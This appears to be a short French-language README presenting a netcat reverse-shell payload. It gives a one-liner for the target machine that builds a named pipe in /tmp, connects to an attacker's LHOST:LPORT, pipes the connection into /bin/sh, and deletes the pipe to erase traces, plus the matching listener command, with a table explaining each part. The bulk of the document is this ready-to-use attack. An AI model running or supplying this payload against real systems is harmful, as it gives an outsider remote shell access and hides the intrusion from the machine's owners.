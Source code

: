 
# Simple Netcat playload
Payload en utilisant Netcat (nc) comme reverse shell.  


## Commandes :  
`man mkfifo ... mkfifo - make FIFOs (named pipes)`  
`man nohup  ... nohup  - run a command immune to hangups, with output to a non-tty`  

**Machine cible** : 
```bash
nohup mkfifo /tmp/hago; nc LHOST LPORT 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago
```

**Machine serveur** `LHOST:LPORT` :
```bash
nc -lnvp LPORT
```


| Commande | Explication  |  
|----------|--------------|
|`nc LHOST LPORT 0</tmp/hago      `   | Crée un client qui envoie ce qui est recu sur le pipe `hago` |
|`nc ... \| /bin/sh >/tmp/hago    `  | Exécute avec l'interpréteur bash ce que recoit le client nc et écrit le résultat dans le pipe | 
|`2>&1`                         | Redirige la sortie erreur(2) sur l'affichage standard(1) qui est envoyer par nc au serveur. `2>&1` plutôt que `2>1`. Le second redirigie la sortie erreur dans un fichier nommé '1' | 
|`rm /tmp/hago`                 | On termine en effaçant les traces du payload |


## Résumé :    
Le serveur envoie des commandes exécutées par le client et recois le résultat et les erreurs.  
